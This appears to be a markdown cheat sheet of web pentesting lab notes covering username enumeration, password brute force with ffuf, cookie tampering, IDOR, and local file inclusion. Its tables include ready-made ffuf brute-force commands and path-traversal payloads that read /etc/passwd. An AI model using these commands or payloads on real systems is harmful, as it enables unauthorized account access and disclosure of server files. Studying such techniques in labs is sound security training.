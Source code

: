 # Enumeration
## Authentication Bypass
| Type | Description | Example |
|-|-|-|
| Username Enumeration | Abuse user authentication by looking at server responses like "An account with this username already exists." | `ffuf -w wordlist.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.10.220/customers/signup -mr "username already exists"` |
| Brute force | Brute force search for the password from the enumerated user | `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.32.175/customers/login -fc 200` |
| Logic flaws | Abuse faulty code | Exact string matches for `admin` could be `adMIN`. `Password reset forms`, Abuse `Header files` & `requests`, `Off by one errors`, etc.
| Cookie Tampering | Examining and editing the cookies set by the web server during your online session | `curl -H "Cookie: logged_in=true; admin=true" http://10.10.232.83/cookie-test` |

## Exploit IDOR vulns
IDOR stands for Insecure Direct Object Reference and is a type of access control vulnerability.

***Where are they located?***
The vulnerable endpoint you're targeting may not always be something you see in the address bar. It could be content your browser loads in via an AJAX request or something that you find referenced in a JavaScript file.

Sometimes endpoints could have an unreferenced parameter that may have been of some use during development and got pushed to production. For example, you may notice a call to /user/details displaying your user information (authenticated through your session). But through an attack known as parameter mining, you discover a parameter called user_id that you can use to display other users' information, for example, /user/details?user_id=123.

| Type | Description | Example |
|-|-|-|
| Basic | Basic example | Change values in links like: `http://online-service.thm/profile?user_id=1305` |
| Encoded IDOR IDs | Web developers will often encode data into some type of ASCII string commonly using a-z, A-Z, 0-9 and = characters for padding | Base64: `{"id":30}` becomes `eyJpZCI6MzB9` |
| Hashed IDs | A bit more complicated to deal with than encoded ones, but they may follow a predictable pattern | md5: `123` becomes `202cb962ac59075b964b07152d234b70` |
| Unpredictable IDs | If the Id cannot be detected using the above methods, an excellent method of IDOR detection is to create two accounts and swap the Id numbers between them. | Swap `two` account IDs |

## Local File Inclusion (LCI)
### Local
With PHP, using functions such as include, require, include_once, and require_once often contribute to vulnerable web applications. Theoretically, we can access and display any readable file on a server if there isn't any input validation. Let's say we want to read the `/etc/passwd file`, we can try the following: `http://domain.com/get.php?file=/etc/passwd`. In this case, it works because **there isn't a directory specified** in the `include` function and **no input validation**.

| Type | Description | Example |
|-|-|-|
| No specified directory | Get the file just like in a console | `/get.php?file=/etc/passwd` |
| Specified directory | Use path traversal along with error messages to find the file | `/get.php?file=../../../../etc/passwd` |
| Specified extension | Use a `null byte` operator or the current directory trick `/.` to bypass the extension, the `%00` trick is patched and not working with PHP 5.3.4 and above. | `/get.php?file=/etc/passwd%00` |
| Input validation | The web application replaces the ../ with the empty string, the PHP filter only matches and replaces the **first** subset string `../` it finds and **doesn't do another pass**. | `....//....//....//....//....//etc/passwd` |
| Include is forced to read from a defined directory | Simply include the directory into the payload | `/get.php?file=languages/../../../../../etc/passwd` |
